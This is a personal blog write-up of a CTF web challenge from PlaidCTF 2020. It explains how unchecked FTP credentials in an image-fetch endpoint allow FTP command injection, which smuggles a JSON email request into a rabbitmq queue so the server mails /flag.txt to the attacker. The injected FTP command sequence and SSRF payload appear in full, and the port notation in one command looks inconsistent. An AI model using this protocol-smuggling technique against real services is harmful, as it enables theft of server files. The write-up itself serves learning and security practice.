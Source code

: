 ```yaml
---
title: "Plaidctf 2020: Contrived Web Problem"
date: 2020-04-28T00:48:12-06:00
draft: false
author: "JamVie"
image: Gmail.jpg
tags: ["writeups", "web"]
---
```



This was a CTF I unfortunately didn't have the time for, as I was busy doing finals in April :(. My team let me know about this cool and unique problem, and I'm glad they did! 
<!--more-->

This was a journey in understanding internet protocols that deepened my knowledge of them to completely new levels, so I'm really grateful I got the chance to try this problem out - even though I tried it after the CTF ended :P


Let's Begin!
----

This problem really holds up to its name. The website is simple - you have the option to login or register as a new user. 
![PlaidCWP1](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CWP01.png)

Uniquely, we are given the source code for the problem. The source code shows us that the program has 6 services:

```
\services
    \api 
    \email (email server, sends emails based on rabbitmq queue)
    \ftp
    \postgres (database)
    \rabbit (email queue, will send requests to the email server)
    \server
...
```

Checking out the code, I see that ```flag.txt``` is actually mentioned. It's in the services dockerfile, which is only used by ```api```, ```email``` and ```server``` services. So, the vulnerability probably is within one of these services. 

I checked out ```api``` first - and I see that the only protocols that it allows are HTTP, HTTPS, and FTP. Aside from the FTP protocol, the other 2 are pretty standard protocols to see in APIs. 

Looking at ```email``` next, which uses [nodemailer](https://nodemailer.com/about/). I'm not too familiar with it, so I check out its documentation: 

![PlaidCWP1](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CWP02.png)

This seems like a good loophole to exploit - we just need to specify the filepath and nodemailer will send an email with an attachment of whatever file we specified by the filepath, so we can exploit nodemailer's same origin policy. Since the rabbitmq server is the email server's queue, we will send a rogue email request into rabbitmq's queue to serve up to the email server, which will tell it to email us the flag!

Now the hard part - how _do we_ ask the server? How do we send a request to the server to send us the email with the flag as an attachment? 

I spent a long time trying to figure out how to send a rogue request to the rabbitmq server that will send us the email we want. I spent hours just browsing through the source code, not really paying attention... 

Until I came across this piece of code in the ```api/index.ts``` file: 

```js
    app.get("/image", async (req, res) => {
        let { url } = req.query;
        if (typeof url !== "string") {
            return res.status(500).send("Bad body");
        }

        let parsed = new URL(url);

        let image: Buffer;
        if (parsed.protocol === "http:" || parsed.protocol === "https:") {
            const imageReq = await fetch(parsed.toString(), { method: "GET" });
            image = await (imageReq as any).buffer();
        } 
        
         //THIS PART HERE!
        else if (parsed.protocol === "ftp:") {
            let username = decodeURIComponent(parsed.username);
            let password = decodeURIComponent(parsed.password);
            let filename = decodeURIComponent(parsed.pathname);
            let ftpClient = await connectFtp({
                host: parsed.hostname,
                port: parsed.port !== "" ? parseInt(parsed.port) : undefined,
                user: username !== "" ? username : undefined,
                password: password !== "" ? password : undefined,
            });
            image = await ftpClient.get(filename);
        } else {
            return res.status(500).send("Bad image url");
        }
                if (!isPNG(image)) {
            return res.status(500).send("Bad image (not a png)");
        }

        res.type(".png").status(200).send(image);
    })

    app.listen("4101");

```
Image: the profile picture we would upload when we register as a new user. For HTTP and HTTPS protocols it's a simple GET method, not much to do there. But for FTP? 
It asks for the username, password and filename, _unchecked_, then asynchronously asks the server for the image that matches the filename that we specified. 
FTP is a text-based protocol, and since username and password fields are passed to it unchecked, we could definitely inject some protocol commands, custom data (something like ```{to: "email@example.com", attachments:[{path:"/flag.txt"}]}```), and make FTP send requests that were never intended to be sent. 

Here's something I learned in my internet computing class about the FTP protocol: FTP connections have two modes : "Active" and "Passive". I'll give a heavily truncated explanation of the two modes (if you're interested in learning mroe about the FTP protocol, check out the [RFC specifications on it](https://tools.ietf.org/html/rfc959)):

-- In active mode, the client will specify the IP of the destination to the server. The FTP server will then send the files to the specified IP. The client establishes the communication channel, tells the server the address to send data to, and the server will then open a data channel to the address. 

-- In passive mode, the server tells the client where the files will be sent to. In this case, the client will then have to open the data channel as well to get the files. By default, applications running FTP will run on passive mode.


The difference in active and passive really lies in the ```RETR``` command in the FTP specifications: active-mode ```RETR``` makes the client stipulate the destination IP, and passive-mode ```RETR``` makes the server stipulate it.

So for this challenge, we can make the FTP client specify the rabbitmq server as the destination IP, and use ```RETR``` to make the FTP server send data to rabbitmq. 

And since the FTP protocol for this application handles for the uploading and retrieval of profile pictures, we just need to hide our payload (which would ask the rabbitmq server to send an email with the flag.txt file in it to us) in our profile picture, specify FTP to operate on active (using ```PORT``` command), and use the ```RETR``` command to let the FTP server send our payload to the rabbitmq server! 

Okay, I've explained alot here. This is the attack plan:

- Craft a payload that will tell the rabbitmq email queue server to email to us, with flag.txt as the attachment. Hide it in the profile picture (make sure its a png). Upload whatever picture it is as our profile picture. 

Here's the payload I crafted (a classic SSRF):
```
{"to":"yourEmailGoesHere@example.com","text":"Hello would you like a flag","attachments":[{"path":"/flag.txt"}]}
```

- Through the username field, input several FTP commands to make the FTP server send our payload to the rabbitmq server. Here, I have made a file called "payload.txt" that has the post request data with the payload in it:

```
PASS blah
PORT 255,255,255,255,80
STOR payload.txt
PORT 172,32,56,72,0, 15672      <-----rabbitmq server and port
RETR payload.txt
```

- Hopefully, the rabbitmq server will send us an email!

```
PCTF{not_that_contrived_i_guess}
```

NOTE: Doing it this way means the FTP server was establishing a connection with the rabbitmq one. However, multiple times I tried this the TCP connection would close immediately after I send my request! I worked around this by sending in a bunch of garbage in my payload.txt file alongside the actual payload, so that at least the TCP connection would have to spend time sending all of that data(think: an unending stream of AAAAAs), and persist long enough for the reponse to be recieved. 

This was a fun way to learn how FTP servers work and how protocols of the internet operate! I'm upset that I didn't have the time to participate when it happened, but nonetheless this was a great challenge :)

Jam